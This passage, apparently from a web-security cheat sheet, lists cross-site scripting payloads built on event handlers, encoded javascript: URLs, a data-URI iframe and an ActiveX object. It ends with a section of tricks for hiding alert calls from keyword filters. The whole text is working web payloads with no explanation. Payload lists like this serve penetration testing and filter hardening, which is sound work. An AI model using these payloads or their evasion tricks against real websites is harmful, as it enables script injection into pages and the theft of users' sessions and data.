 - </script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
- <style>//*{x:expression(alert(/xss/))}//<style></style>

On Mouse Over​:

- <img src="/" =_=" title="onerror='prompt(1)'">
- <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
- <script x> alert(1) </script 1=2
- <form><button formaction=javascript&colon;alert(1)>CLICKME
- <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
- <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
- <OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>

#### Filter Bypass Alert Obfuscation¶

- (alert)(1)
- a=alert,a(1)
- [1].find(alert)
- top[“al”+”ert”](1)
- top[/al/.source+/ert/.source](1)
- al\u0065rt(1)
- top[‘al\145rt’](1)
- top[‘al\x65rt’](1)
- top[8680439..toString(30)](1)
- alert?.()
- (alert())

The payload should include leading and trailing backticks:
&#96;`${alert``}`&#96;